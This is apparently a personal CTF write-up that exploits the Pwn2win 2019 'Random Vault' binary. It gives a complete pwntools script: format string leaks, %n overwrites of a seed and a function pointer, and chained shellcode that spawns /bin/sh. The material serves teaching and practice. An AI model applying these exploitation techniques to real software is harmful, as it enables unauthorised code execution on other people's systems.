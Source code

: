 ```yaml
---
layout: post
title: Pwn2win CTF 2019 - Random Vault
date: 2019-11-19 00:00:00
categories: 
    - ctf
tags:
    - ctf
    - linux
    - x64
    - format string
    - binary exploitation
---
```


### Sources

[https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault](https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault)

### Summary

This challenge is from pwn2win19 ctf. I didn't join the ctf. Solve this challenge by scraping for the binary in ctftime and solve it locally.

#### Overview

So the binary is a program which saves datas. The datas then being store on a memory with random address.

```terminal
❯ ./random_vault
Welcome to the Vault!
Username: blabla

=== VAULT ===
Hello, blabla

Actions:
1. Change username
2. Store secret
3. Reset vault
4. Quit

2
Secret #1: 1
Secret #2: 2
Secret #3: 3
Secret #4: 4
Secret #5: 5
Secret #6: 6
Secret #7: 7
You've stored the following secrets:
#1: 1, #2: 2, #3: 3, #4: 4, #5: 5, #6: 6, #7: 7
Keep secret? (y/n) y
Ok! Your data is SAFE.
```

#### The bugs

1. There is format string vulnerability exists on a function that's called to write down username.

    ```c
    unsigned __int64 __fastcall sub_1412(const char *global_buf)
    {
        unsigned __int64 v1; // ST18_8
        v1 = __readfsqword(0x28u);
        printf("Hello, ");
        sub_12BD(1, 2, 3, 4, 5, 6);
        printf(global_buf, 2LL); // format string
        puts(byte_2056);
        return __readfsqword(0x28u) ^ v1;
    }
    ```

#### Exploitation's Scenario

For the first time i thing this is just a straightforward format string challenge. Use the bug to leak some information and then overwrite some pointer to gain shell access, but there are some logic that make it hard to solve:

- we can only run the format string attack twice. First at the start while program runs, second is when we use `change username` function.

    ```c
    if ( qword_4020[a2] == 0x8161412171513111LL ) // check the value
    {
        printf("Username: ");
        fgets(global_buf, 81, stdin);
        global_buf[81] = 0;
        qword_4020[a2] = 0LL; // zeroed buf
    }
    ```

- username's buffer spaces are only 80 bytes so can only do arbitrary write approx 12 bytes using `%hn` format. It's difficult if we want to do multiple read and write at the same time.

The scenario will be:

1. Leaking a RWX regions as program places a function pointer and seed for `store secret`:

    ```c
    srand(seed);
    for ( i = 0; i <= 6; ++i )
    {
        printf("Secret #%d: ", (i + 1));
        v0 = rand();
        secret_array[i] = ((v0 >> 56) + v0) - ((v0 >> 31) >> 24);
        __isoc99_scanf("%llu", &unk_5010 + 8 * secret_array[i]);
    }
    ```

2. Overwriting seed's value to specific value so we can control where to store secret. And fortunately secrets are stored in RWX region, so we can execute it if we inject shellcode.

3. Overwriting function pointer at RWX region so it's pointing to the our shellcode.

### Exploitation

#### Helper

For cleaner exploit script, we use helper function.

```python
def init(r, cnt):
    r.recv()
    r.sendline(cnt)

def change_username(r, cnt):
    r.recv()
    r.sendline("1")
    r.recv()
    r.sendline(cnt)

def store_secret(r, s):
    r.recv()
    r.sendline("2")
    for d in s:
        r.recv()
        r.sendline(d)

r = process("./random_vault", aslr=1)
```

#### Stage 1. Leaking RWX region

Using format string vulnerability to leak the region that has RWX permission.

```python
pload_leak = "%p|"*11
init(r, pload_leak)
d = r.recvuntil("Actions:").split("|")
rwx = int(d[10], 16) + 0x38b0
seed = rwx + 0x8
```

#### Stage 2. Calculating address of secret

After overwriting seed's value to 1 later in stage 3, we can determine where our secret will be stored in memory using dynamic analysis through debugger. Later we will placed our shellcode in the secret variable and chains them with `jmp` instruction so it connects one another (like a linked-list). So to make the shellcode easier, order of shellcode in secret will be places from the lowest to higher memory.

```python
loc = [0x67, 0xc6, 0x69, 0x73, 0x51, 0xff, 0x4a] # shellcode order will be 7, 5, 1, 3, 4, 2, 6
sc_start = rwx + 0x10
sc_loc = []
for i in loc:
    sc_loc.append(sc_start+(8*i))
```

#### Stage 3. Overwriting function pointer and seed value

Using format string vulnerability, overwrite seed's value to 1 and function pointer to point to start of shellcode (secret no #7).

```python
entry = sc_loc[6] & 0xffff
seed_val = 1
z = "%{}c%29$n|%{}c|%30$hn".format(seed_val.__str__(), (entry-seed_val-2).__str__())
pload_z = z.ljust(40, 'A') + p64(seed) + p64(rwx)
change_username(r, pload_z)
```

#### Stage 4. Calculating secret value and storing secret

We build the shellcode to read from stdin and make program run our previous input shellcode from stdin that will call execve("/bin/sh").

```python
c = asm(shellcraft.linux.read('rax', 'rdx', 0x5000))

''' disasm(c)
0:   48 89 c7                mov    rdi,rax
3:   31 c0                   xor    eax,eax # ignored
5:   48 89 d6                mov    rsi,rdx
8:   31 d2                   xor    edx,edx
a:   b6 50                   mov    dh,0x50
c:   0f 05                   syscall
'''

sc_7 = c[0:3:] + "\xeb{}".format(chr(sc_loc[4] - sc_loc[6]- 5))
sc_7 = sc_7.ljust(8, "\x00")
sc_5 = c[5:10:] + "\xe9{}".format(chr(sc_loc[0] - sc_loc[4]- 5 - 5))
sc_5 = sc_5.ljust(8, "\x00")
sc_1 = c[0xa:0xe:] + "\xe9{}".format(chr(sc_loc[2] - sc_loc[0]- 5 - 5 - 6))
sc_1 = sc_1.ljust(8, "\x00")
secret = [str(u64(sc_1)), "0", "0", "0", str(u64(sc_5)), "0", str(u64(sc_7))]
store_secret(r, secret)
```

#### Stage 5. Sending shellcode

```python
s = asm(shellcraft.linux.sh())
r.sendline("B"*0xf1 + s)
```

#### Pwned

```terminal
❯ python solve.py
[+] Starting local process './random_vault': pid 15280
[*] Stage 1 > Leaking RWX region
[+]         > RWX region address: 0x55d1740e6000, seed address: 0x55d1740e6008
[*] Stage 2 > Calculating address of secret
[*] Stage 3 > Overwriting function pointer and seed value
[*] Stage 4 > Calculating secret value and storing secret
[*] Stage 5 > Sending shellcode
[+] Pwn!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

